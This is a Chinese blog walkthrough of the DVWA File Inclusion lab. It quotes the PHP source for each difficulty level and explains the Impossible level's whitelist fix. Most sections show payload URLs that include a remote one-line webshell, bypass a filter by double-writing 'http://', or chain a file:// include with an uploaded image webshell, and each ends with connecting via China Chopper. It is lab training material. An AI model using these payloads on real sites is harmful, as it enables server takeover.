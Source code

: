 **目录**

[LOW：](#t0)

[Medium：](#t1)

[High](#t2)

[Impossible](#t3)

* * *

LOW：
----

源代码：

```
<?php      
// The page we wish to display      
$file = $_GET[ 'page' ];      
?>
```


可以看到，low级别的代码对包含的文件没有进行任何的过滤！这导致我们可以进行包含任意的文件。

当我们包含一个不存在的文件 haha.php ，看看会发生什么情况！

[http://127.0.0.1/vulnerabilities/fi/?page=haha.php](http://127.0.0.1/vulnerabilities/fi/?page=haha.php)

可以看到，发生了报错，并且把网站的路径都给暴露出来了。

![](https://img-blog.csdn.net/20181001124024179?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

第一行的那个Warning就是找不到我们指定的haha.php文件，也就是包含不到我们指定的文件，所以Warning。  
而第二行的警告是因为前面没有找到指定文件，所以包含的时候就出警告了。 

我们可以试下是否存在远端包含，在云端搭了一个一句话木马，然后包含该文件看看：

[http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.10.139/xie.php](http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.10.139/xie2.php)

结果发现成功包含了远端的文件。

那么我们就可以利用中国菜刀进行连接了。

![](https://img-blog.csdn.net/2018100115323239?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

Medium：
-------

源代码：

```
<?php      
// The page we wish to display      
$file = $_GET[ 'page' ];      
// Input validation      
$file = str_replace( array( "http://", "https://" ), "", $file );      
$file = str_replace( array( "../", "..\"" ), "", $file );      
?>
```


可以看到，代码使用 str\_replace函数 对http:// 和 https://进行了过滤，防止了远程包含漏洞的产生，也过滤了 ../ 和 ..\\ 防止了进行目录切换的包含。

但是使用 str\_replace 函数进行过滤是很不安全的，因为可以使用双写绕过。例如，我们包含 hthttp://tp://xx 时，str\_replace 函数只会过滤一个 http://  ，所以最终还是会包含到 http://xx 

所以，我们可以试试访问该链接 [http://127.0.0.1/vulnerabilities/fi/?page=hthttp://tp://192.168.10.139/xie.php](http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.10.139/xie2.php)

结果成功包含了远端的文件，所以我们就可以用一句话木马连接了。

相关文章：[DVWA文件上传漏洞High级别](https://blog.csdn.net/qq_36119192/article/details/82904642#High%EF%BC%9A)

High
----

源代码：

```
<?php      
// The page we wish to display      
$file = $_GET[ 'page' ];      
// Input validation      
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {      
    // This isn't the page we want!      
    echo "ERROR: File not found!";      
    exit;      
}      1
?>
```


high级别的代码对包含的文件名进行了限制，必须为 file\* 或者 include.php ，否则会提示Error：File not  found。

于是，我们可以利用 file 协议进行绕过。file协议我们其实并不陌生，当我们用浏览器打开一个本地的文件时

![](https://img-blog.csdn.net/20181001160246194?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

所以我们可以利用file协议进行包含本地的文件。

当我们想包含一句话木马时，必须配合文件上传漏洞，先把一句话木马上传到服务器端，然后再文件包含，用菜刀连接。

我们先把包含一句话木马的图片利用文件上传漏洞上传到服务器端，然后利用文件包含漏洞和file协议包含该漏洞

所以，当我们访问该链接时

[http://127.0.0.1/vulnerabilities/fi/?page=file:///D:/PhpStudy/PHPTutorial/WWW/DVWA/hackable/uploads/1.jpg](http://127.0.0.1/vulnerabilities/fi/?page=file:///D:/PhpStudy/PHPTutorial/WWW/DVWA/hackable/uploads/2.jpg)

可以看到，成功包含了我们上次的一句话木马图片，把该图片当成php文件执行了

![](https://img-blog.csdn.net/20181001161509393?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

然后，我们就可以利用该链接用中国菜刀进行连接了。 

因为这个网站是要登录的，所以我们在菜刀中右键，然后浏览网站，然后登录就可以在菜刀中保持我们的session。然后就可以获取Webshell了。

![](https://img-blog.csdn.net/20180930203033712?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

Impossible
----------

源代码： 

```
<?php      
// The page we wish to display      
$file = $_GET[ 'page' ];       
// Only allow include.php or file{1..3}.php      
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {      
    // This isn't the page we want!      
    echo "ERROR: File not found!";      
    exit;      1
}      1
?>
```


可以看到，impossible级别的代码使用了白名单过滤的方法，包含的文件名只能等于白名单中的文件，所以避免了文件包含漏洞的产生！

### 相关文章：[文件包含漏洞](https://blog.csdn.net/qq_36119192/article/details/82823685)